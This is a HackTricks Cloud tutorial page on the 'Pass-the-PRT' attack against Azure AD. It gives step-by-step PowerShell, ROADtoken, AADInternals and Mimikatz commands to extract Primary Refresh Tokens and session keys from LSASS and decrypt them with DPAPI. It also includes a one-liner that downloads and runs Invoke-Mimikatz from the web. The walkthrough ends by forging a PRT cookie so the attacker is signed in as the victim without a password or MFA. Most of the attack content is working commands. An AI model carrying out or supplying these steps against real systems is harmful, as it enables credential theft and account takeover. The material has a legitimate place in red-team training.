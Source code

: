 # Az - Pass the PRT

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## What is a PRT

A **Primary Refresh Token (PRT)** is used to provide a **single sign-on (SSO)** experience for users of Windows 10 and mobile OSes.

When you log in in a device supporting thins SSO, Windows will **communicate with the Cloud Authentication Provider, validate** your credentials and **returns** the **PRT** and a **session key**. The **PRT is stored in LSASS**, and the **session key gets re-encrypted** with the local devices TPM and then stored alongside the PRT.

Then, when the **browser** tries to access resources on the cloud, a **PRT cookie** is used to access them.

Once issued, a **PRT** is **valid** for **14 days** and is **continuously renewed** as long as the user actively uses the device. A PRT only has **MFA claims** if when accessing RDP you use **windows hello** or **windows account manager**.

It can be used to obtain access and refresh token to any application.

For more information about how this works read the [**documentation**](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token) or [**this page**](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/).

### Check if you have a PRT

```
Dsregcmd.exe /status
```

In the SSO State section, you should see the **`AzureAdPrt`** set to **YES**.

<figure><img src="../../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

In the same output you can also see if the **device is joined to Azure** (in the field `AzureAdJoined`):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### Steps

1. **Extract** the **PRT from LSASS** and save this for later.
2. **Extract** the **Session Key**. If you remember this is issued and then re-encrypted by the local device, so we need to **decrypt this using a DPAPI masterkey**. For more info about DPAPI check this [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) link or the [**Pass-the-cookie attack**](az-pass-the-cookie.md).
3. Using the decrypted Session Key, we will obtain the derived key for the PRT and the context. This is needed to **create our PRT cookie**. The derived key is what is used to sign the JWT for the cookie. Dirk-jan did a great job explaining this process [here](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

Now we have everything we need to sign our own PRT Cookies and the rest of these steps can be done from any other system.

* We will use the PRT, derived key, and context to create a new PRT Cookie.
* Import the cookie into your browser session (we’ll use Chrome)
* That’s it! You should now be authenticated as that user without having to know their password, or handle any MFA prompts.

### Attack - Roadtoken

For more info about this way [**check this post**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). To generate a valid PRT cookie the first thing you need is a nonce.\
You can get this with:

```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```

Or using [**roadrecon**](https://github.com/dirkjanm/ROADtools):

```powershell
roadrecon auth prt-init
```

Then you can use [**roadtoken**](https://github.com/dirkjanm/ROADtoken) to get a new PRT (run in the tool from a process of the user to attack):

```powershell
.\ROADtoken.exe <nonce>
```

As oneliner:

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Then you can use the **generated cookie** to **generate tokens** to **login** using Azure AD **Graph** or Microsoft Graph:

```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --IaccountId <acc_ind>
```

### Attack - Using AADInternals

`Get-AADIntUserPRTToken` **gets user’s PRT token** from the Azure AD joined or Hybrid joined computer. Uses `BrowserCore.exe` to get the PRT token.

```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```

Or if you have the values from Mimikatz you can also use AADInternals to generate a token:

```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```

Then go to [https://portal.azure.com](https://portal.azure.com)&#x20;

{% hint style="danger" %}
The rest should be the defaults. Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again. If it doesn’t, you should be good.
{% endhint %}

### Attack - Mimikatz

{% hint style="warning" %}
This won't work post August 2021 fixes to get other users PRT tokens as only the user can get his PRT (a local admin cannot access other users PRTs), but can access his.
{% endhint %}

{% hint style="danger" %}
**This way to generate the cookie didn't work for me last time**
{% endhint %}

You can use **mimikatz** to extract the PRT:

```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**Copy** the part labeled **Prt** and save it.\
Extract also the session key or “**ProofOfPosessionKey**” which you can see highlighted below. This is encrypted and we will need to use our DPAPI masterkeys to decrypt it.

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
If you don’t see any PRT data it could be that you **don’t have any PRTs** because your device isn’t Azure AD joined or it could be you are **running an old version** of Windows 10.
{% endhint %}

To **decrypt** the session key you need to **elevate** your privileges to **SYSTEM** to run under the computer context to be able to use the **DPAPI masterkey to decrypt it**. You can use the following commands to do so:

```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Now you want to copy both the Context value:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

And the derived key value:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Finally you can use all this info to **generate PRT cookies**:

```
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```

<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```

Then go to [https://portal.azure.com](https://portal.azure.com)&#x20;

{% hint style="danger" %}
The rest should be the defaults. Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again. If it doesn’t, you should be good.
{% endhint %}

## References

* This post was mostly extracted from [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
